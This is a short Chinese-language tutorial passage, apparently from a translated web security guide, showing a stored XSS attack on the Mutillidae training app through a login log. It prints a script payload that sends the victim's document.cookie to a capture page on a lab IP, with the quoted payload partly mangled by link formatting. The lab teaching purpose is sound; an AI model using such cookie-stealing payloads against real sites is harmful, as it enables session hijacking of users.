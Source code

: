 ![](img/1599f133d214d12213a83f71945ba005.png)

存储的 XSS 的另一个例子如下

在我们旁边的登录页面中，我们输入 test 作为用户名和密码。我们做的每一件事都记录在日志数据库里。我们可以继续检查日志数据库，在那里我们可以看到测试用户名的失败登录尝试被注册。因此，如果用户名没有被清除，而是直接保存在日志中，那么我们就可以利用这一点来发起存储 XSS 攻击。

![](img/2b0aeeb44e2644973ddf4a9c71d8413f.png)

我们在用户名字段中传递以下有效载荷，看看我们是否能够执行 XSS 攻击。

```
<script>document.location=“[http://192.168.56.103/mutillidae/index.php?page=capture-data.php&c=“+document.cookie</script>](http://192.168.56.103/mutillidae/index.php?page=capture-data.php&c=%E2%80%9C+document.cookie%3C/script%3E)
```

一旦我们在用户名框中传递我们的有效负载并打开日志文件，我们就可以清楚地看到 cookies 按照我们的预期存储在那里。

![](img/101b5eaf0d3481cb6872cbaf648c3447.png)
